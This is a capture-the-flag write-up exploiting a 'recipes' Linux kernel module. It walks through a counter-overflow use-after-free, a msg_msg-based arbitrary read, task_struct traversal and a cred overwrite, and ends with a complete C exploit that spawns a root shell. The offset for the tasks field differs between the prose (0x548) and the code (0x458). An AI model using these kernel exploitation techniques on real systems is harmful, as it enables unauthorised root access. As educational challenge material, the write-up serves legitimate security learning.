


## Overview

The challenge consists in a kernel module that allows a user to store "recipes".

To communicate with the device we are provided with an ioctl interface that enables us to do the following:
- Allocate a recipe
- Delete a recipe
- Read a recipe
- Get information about a recipe
- Toggle private mode for a recipe

```c
typedef struct recipe {
	char *buf;
	unsigned long bufsize;
	unsigned int public;
	uid_t owner_uid;
} recipe_t;
```
_Structure of a recipe_

Recipes are stored using this manager object:
```c
typedef struct recipe_manager {
	recipe_t **recipes_list;
	unsigned char num_of_recipes;
} recipe_manager_t;
```

#### Alloc
To successfully allocate a recipe we need to provide the following parameters:
```c
struct alloc {
	unsigned long idx;
	char* buf;
	unsigned long bufsize;
	unsigned int public;
} alloc;
```

Now the allocation process is pretty straight forward:
1. Increase `num_of_recipes`
2. Check if `recipes_list` exists and allocate it if it doesn't
3. Check if there is free space in the `recipes_list`, if not krealloc it
4. Allocate a chunk for `recipe.buf` and fill it with the provided data
5. Allocate a recipe and place inside it all of the provided data
6. Add the recipe to `recipes_list`
7. Return the index of the recipe inside `recipes_list`

#### Delete
To delete a recipe you just pass the index:
```c
struct delete {
	unsigned long idx;
} delete;
```

If the index is smaller than `num_of_recipes` then `recipe.buf` and `recipe` itself get freed and the latter removed from `recipes_list`, pretty easy.

#### Read
Read just allows you to get the contents of `recipe.buf`. The needed parameter are the following:
```c
struct read {
	unsigned long idx;
	char *buf;
	unsigned long bufsize;
} read;
```

Here `bufsize` must be smaller than the original bufsize provided on allocation.
The contents of the buffer will be returned through `buf`.

#### Info
This functionality enables a user to retrieve information about a recipe, using the following structure:
```c
struct info {
	unsigned long idx;
	unsigned long bufsize;
	unsigned int public;
	uid_t owner_uid;
} info;
```

Nothing really to say except:
```c
request.info.bufsize = recipe->bufsize;
request.info.owner_uid = recipe->owner_uid;
request.info.public = recipe->public;
```

#### Toggle
Provide the index of an existing recipe:
```c
struct toggle {
	unsigned long idx;
} toggle;
```

The `recipe.public` property gets toggled.


## Vulnerability

To be honest, I needed several reads of the code to finally find the vulnerability, which was very well hidden.
If you have a sharp sight you might have noticed a weird declaration in the struct above; let me refresh your memory:
```c
typedef struct recipe_manager {
	recipe_t **recipes_list;
	unsigned char num_of_recipes;
} recipe_manager_t;
```

**unsigned char** sounds like integer overflow!

If we allocate 256 recipes, the last one will overflow `num_of_recipes` back to 0, and as krealloc gets called as follows:
```c
krealloc(manager.recipes_list, sizeof(recipe_t *) * manager.num_of_recipes, GFP_KERNEL);
```
if `manager.num_of_recipes` is 0 we are freeing `manager.recipes_list`. 
This is because krealloc with size 0 behaves like kfree.

This creates a UAF primitive: we can use `recipes_list` even tho it's freed and thus control the pointers contained in that list by allocating something else over it!


_(I only drew this horror to force myself to learn how to use a graphics tablet, I'm sorry for your eyes)_

As you can see the `num_of_recipes` is 0xff even tho we achieved UAF. This is because krealloc doesn't return a valid ptr and `num_of_recipes` is the decremented as part of the error handling.
```c
// tmp is the ptr returned by krealloc
if (ZERO_OR_NULL_PTR(tmp)) {
	printk(KERN_INFO "[CHALL] [ERR] (Re)allocation failed\n");
	manager.num_of_recipes--;
	goto error;
}
```

## Exploitation

First of all, we need to leak some cache addresses.
The plan is to allocate an `msg_msg` struct of 2048 bytes over the `recipes_list`, with the contents of `msg_msg` we can tamper with the list of pointers. If you want to know more about `msg_msg` read my previous article: https://leo1.cc/posts/docs/msg_msg.

### Arbitrary read
Tampering with the `recipes_list` means writing arbitrary pointer into it, enabling us to arbitrary read memory.
The `read_recipe` functionality of the module is not the best way to achieve the primitive we are looking for, since the check of the `owner_id` is quite limiting.

However, the `get_info` comes to our rescue: this functionality is not restricted by the `owner_uid` check, thus we can read arbitrary locations through `recipe.bufsize`, `recipe.public` and `recipe.owner_id`. For the sake of simplicity I'll stick to the first one, as it enables us read a full qword.

I wrote this function to simplify the process:
```c
ulong read_qword(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 8; // recipe.bufsize overlaps the qword to read

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	// get the bufsize
	struct info leak;
	info_recipe(6, &leak);
	return leak.bufsize;
}
```

### Achieve RCE

#### First idea: tty_struct
```c
	struct tty_struct {
	  int magic; // paranoia check
	  struct kref kref; // reference count
	  struct device *dev;
	  struct tty_driver *driver; // must be valid
	  const struct tty_operations *ops; // ptr to vtable
	  ...
	}
```

To pull this off I needed first to leak the kmalloc-2k cache (the one where the `recipes_list` resides). To do that I leveraged some pointers in the metadata of `msg_msg struct`.

Once leaked `kmalloc-2k` I could basically leak every cache up to `kmalloc-1k`, using my arbitrary read primitive and the capability of allocating arbitrary chunks of size 8 to 1024 bytes (buffer chunks).

The plan then was the following:
1. forge a fake recipe (place as buf a pointer to `tty_struct`)
2. free the fake recipe (UAF on tty_struct)
3. allocate a recipe with bufsize of 1024 (override `tty_struct`)
	- to pass paranoia check `tty_struct.magic` should be `0x5401`
	- override `tty_struct.ops` with a pointer to a fake vtable of size `0x120`
4. use [this gadget](https://github.com/smallkirby/kernelpwn/blob/master/technique/tty_struct.md#aaw-simplified-version-of-rip-control) to achieve arbitrary write and override `modprobe_path`

As you may know, to allocate a `tty_struct` you need to open `/dev/ptmx`, which triggers a call to `ptmx_open` which, in turn, is responsible of allocating our beloved `tty_struct`.
The trouble is that an extra check is done before the allocation:
```c
fsi = devpts_acquire(filp);
if (IS_ERR(fsi)) {
	retval = PTR_ERR(fsi);
	goto out_free_file;
}
```
This tries to interact with `/dev/pts`. 
Unfortunately this device is not mounted in this challenge environment. 
Dead end :/

#### Second idea: UAF a pipe_buffer
As I recently read about an heap struct called `pipe_buffer` (reading [this article](https://www.interruptlabs.co.uk/articles/pipe-buffer)) and `tty_struct` exploitation didn't work out as expected, I thought about trying to achieve arbitrary write through pipes.

I didn't actually test this idea because I had another brainwave (next paragraph), however, sooner or later I will try to use this method and update the post.

#### Third idea: override cred struct
The challenge module contains the `toggle` command, which could be used to write zero integers at arbitrary memory locations.
This comes with some serious constraints:
- before using this functionality we must be sure that the location we are toggling isn't already empty, otherwise we would write a one in it
- `recipes.owner_uid` must be equal to our uid, meaning that the word right under the location we want to toggle must be set to 1000

A feasible target for this constrained arbitrary write is the `cred struct` of our exploit:
```c
struct cred{
	atomic_long_t usage;
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
}
```
_The complete cred struct definition can be found [here](https://elixir.bootlin.com/linux/v5.10.220/source/include/linux/cred.h#L88)_

`kuid_t` is a struct containing an `unsigned int`, so we are talking about 4 bytes in memory.
The idea is now to set some UIDs to 0, meaning root privileges for our exploit!

One of the bigger issues I faced was finding a way to leak the address of the **correct** `cred struct`. (remember that I'm still a noob at kpwn and kernel debugging)

Every process has an associated `task_struct`, which contains loads of information, including a pointer to the credentials of such process.
The structs are linked in a linked-list, starting from `init_task`, this represents the process with `pid` 1.
`init_task` is located in the kernel data region and, as KASLR is disabled, we know precisely where that is.
The other tasks, however, are dynamically allocated and so are the creds.

**We need to traverse the linked list until we find the `task_struct` containing the pid of our exploit, retrieve the address of the `cred struct` and override some UIDs.** 

Now, the structure of a `task_struct` is available [here](https://elixir.bootlin.com/linux/v6.1/source/include/linux/sched.h#L737), but getting the correct offsets for useful fields is not a piece of cake.
However, after some debugging and guessing I retrieved the following:
- `task_struct.pid` at offset **0x560**
- `task_struct.tasks` (pointer to next `task_struct`) at offset **0x548**
- `task_struct.real_cred` (pointer to `cred struct`) at offset **0x728**

Now it's just a matter of ~~painless~~ scripting.

#### Final Exploit
```c
#include <sys/msg.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/msg.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>

#define CHALLENGE_DRIVER "/dev/chall"

#define CMD_ALLOC 1337
#define CMD_DELETE 1338
#define CMD_READ 1339
#define CMD_INFO 1340
#define CMD_TOGGLE 1341

static int fd;

typedef union request {

	struct alloc {
		unsigned long idx;
		char* buf;
		unsigned long bufsize;
		unsigned int public;
	} alloc;

	struct delete {
		unsigned long idx;
	} delete;

	struct read {
		unsigned long idx;
		char *buf;
		unsigned long bufsize;
	} read;

	struct info {
		unsigned long idx;
		unsigned long bufsize;
		unsigned int public;
		uid_t owner_uid;
	} info;

	struct toggle {
		unsigned long idx;
	} toggle;

} request_t;

ulong alloc_recipe(char *buf, ulong bufsize, uint public){
    request_t request;

    request.alloc.buf = buf;
    request.alloc.bufsize = bufsize;
    request.alloc.public = public;

    ioctl(fd, CMD_ALLOC, &request);

    return request.alloc.idx;
}

void read_recipe(ulong idx, char *buf, ulong bufsize){
    request_t request;

    request.read.idx = idx;
    request.read.buf = buf;
    request.read.bufsize = bufsize;

    ioctl(fd, CMD_READ, &request);
}

void delete_recipe(ulong idx){
	request_t request;

    request.delete.idx = idx;

    ioctl(fd, CMD_DELETE, &request);
}

void info_recipe(ulong idx, struct info* info){
    request_t request;
	
	request.info.idx = idx;
    ioctl(fd, CMD_INFO, &request);
	info->bufsize = request.info.bufsize;
	info->owner_uid = request.info.owner_uid;
	info->public = request.info.public;
}

void toggle_recipe(ulong idx){
	request_t request;
	
	request.toggle.idx = idx;
    ioctl(fd, CMD_TOGGLE, &request);
}

int alloc_msg(void* data, size_t size){
    int qid;
    qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    msgsnd(qid, data, size-0x30, 0);
    return qid;
}
void free_msg(int qid, void* buf, size_t size){
    msgrcv(qid, buf, size, 0, IPC_NOWAIT | MSG_NOERROR);
}
void leak(char* what, unsigned long where){
  printf("%s @ %p\n", what, (void*) where);
}

ulong read_qword(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 8; // recipe.bufsize overlaps the qword to read

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	// get the bufsize
	struct info leak;
	info_recipe(6, &leak);
	return leak.bufsize;
}

void change_uid(ulong addr){
	// alloc msg_msg over recipes_list
	struct msgbuf
    {
        long mtype;
        char mtext[2000];
    } msg;
    msg.mtype = 1;
	
	// place a pointer just after msg_msg metadata (index 6 of recipes_list)
	ulong *ptr = (ulong *)&msg.mtext;
    ptr[0] = addr - 0x10; // recipe.public overlaps the uid we want to change

	int qid = alloc_msg(&msg, sizeof(msg.mtext));
	free_msg(qid, &msg, sizeof(msg.mtext));

	toggle_recipe(6); // toggle uid (from 1000 to 0)
}

#define INIT_TASK 0xffffffff828149c0
#define NEXT_TASK_OFF 0x458
#define PID_OFF 0x560
#define CREDS_OFF 0x728

int main(int argc, char **argv) {
    fd = open(CHALLENGE_DRIVER, O_RDWR | O_NONBLOCK);

    ulong bufsize = 0x300;
    char *buf = malloc(bufsize);
    memset(buf, 0x41, sizeof(buf));

	// make manger.num_of_recipes = 0xff
    for(int i=0; i<0xff; i++){ 
		alloc_recipe(buf, bufsize, 1);
	}

	// overflow manager.num_of_recipes back to 0
	// krealloc will free manager.recipes_list [krealloc(ptr, 0) = kfree(ptr)]
	// we gained UAF on the recipes_list
	alloc_recipe(buf, bufsize, 1);


	ulong current_task = INIT_TASK;
	uint pid = getpid();
	while(1){
		uint current_pid = (uint)read_qword(current_task+PID_OFF);
		if(current_pid == pid){
			break;
		}else{
			current_task = read_qword(current_task+NEXT_TASK_OFF)-NEXT_TASK_OFF;
		}
	}
	
	leak("Current task", current_task);
	ulong creds = read_qword(current_task+CREDS_OFF);
	leak("Creds", creds);

	change_uid(creds+20); // EUID (effective UID)
	change_uid(creds+4); // current UID

	system("/bin/sh");

    return 0;
}
```

**Note**: first override the `euid` and then the `uid`, otherwise you won't be able to change the `euid`, for some reason.

